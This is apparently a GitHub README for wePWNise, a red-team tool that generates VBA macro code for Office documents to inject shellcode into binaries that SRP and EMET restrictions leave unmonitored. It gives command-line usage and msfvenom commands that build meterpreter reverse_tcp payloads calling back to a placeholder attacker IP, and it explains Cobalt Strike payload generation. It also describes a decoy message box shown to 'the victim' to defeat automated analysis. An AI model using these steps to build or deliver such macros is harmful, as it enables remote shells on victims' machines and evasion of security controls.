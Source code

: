 #wePWNise

wePWNise is proof-of-concept Python script which generates VBA code that can be used in Office macros or templates. It was designed with automation and integration in mind, targeting locked down environment scenarios. The tool enumerates Software Restriction Policies (SRPs) and EMET mitigations and dynamically identifies safe binaries to inject payloads into. wePWNise integrates with existing exploitation frameworks (e.g. Metasploit, Cobalt Strike) and it also accepts any custom payload in raw format.

##Prerequisites

* Python termcolor package. To install run: pip install termcolor

##Command line arguments

To start using wePWNise, first take a look at the options it supports:

```
usage: wepwnise.py [-h] -i86 <x86_shellcode> -i64 <x64_shellcode> [--inject64]   
                   [--out <output_file>] [--msgbox] [--msg <window_message>]

optional arguments:   
  -h, --help            show this help message and exit   
  -i86 <x86_shellcode>  Input x86 raw shellcode   
  -i64 <x64_shellcode>  Input x64 raw shellcode   
  --inject64            Inject into 64 Bit. Set to False when delivering x86   
                        payloads only. Default is True   
  --out <output_file>   File to output the VBA macro to   
  --msgbox              Present messagebox to prevent automated analysis.   
                        Default is True.   
  --msg <window_message>   
                        Custom message to present the victim if --msgbox is   
                        set to True
```

wePWNise requires both 32 and 64 bit raw payloads in order to be able to deliver the appropriate type when it lands on an unknown target. However, if only an x86 architecture is targeted, a dummy 64 bit payload must be provided to replace the missing code. 

In order to defeat certain automated analysis configurations, a message box opens upon execution of the code. The text of the message box can be altered by defining its value in the --msg parameter. To disable this functionality set the --msgbox parameter to False.

Due to performance conditions that may be introduced as a result of long SRPs/EMET policies, wePWNise reads two configuration files (binary-paths.txt and directory-paths.txt) that contain a list of executables and directories which are less likely to be monitored to be checked first. By editing the contents of those files the user can define their own choices instead. If the files are empty, wePWNise will directly start reading the SPRs/EMET policies as these would be defined within the Registry and make its injection choice purely based on the retrieved information.


##Usage examples

The following sections describe some basic usage examples of wePWNise.

###Metasploit payloads

First the payloads for both x86 and x64 architectures in raw format and ensure that the Metasploit listeners are configured appropriately.

`$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw -o /payloads/msf86.raw`   
`$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw -a x86_64 -o /payloads/msf64.raw`

Then point wePWNise to the generated payloads and direct the output to msf_wepwn.txt

`$ wepwnise.py -i86 /payloads/msf86.raw  -i64 /payloads/msf64.raw --out /payloads/msf_wepwn.txt`

###Cobalt Strike payloads

To generate a raw payload in Cobalt Strike, navigate to the following menu and from the Output dropdown select the Raw format. Repeat the process and enable the x64 checkbox to produce a 64-bit payload.

Attacks > Packages > Payload Generator

Enter the generated payloads into wePWNise to generate the VBA code.

`$ wepwnise.py -i86 /payloads/cs86.raw  -i64 /payloads/cs64.raw  --msgbox False --out /payloads/cs_wepwn.txt`


###Custom payloads

In certain cases it may be the case that only an x86 payload be available. As wePWNise expects both a 32-bit and 64-bit payloads, in order to disable 64-bit injection create a dummy 64-bit file and set the --inject64 parameter to False.

```
$ echo "+" > /payloads/dummy64.raw
$ wepwnise.py -i86 /payloads/custom.raw  -i64 /payloads/dummy64.raw --inject64 False --out /payloads/wepwn86.txt
```

Similarly, to generate 64-bit payloads only, create a dummy x86 file and supply it in wePWNise's -i86 command line paramenter.

##License

wePWNise is released under a 3-clause BSD License and maintained by [MWR InfoSecurity](https://mwrinfosecurity.com)

##Credits
This tool was originally developed by Vincent Yiu ([@vysecurity](https://twitter.com/vysecurity)).
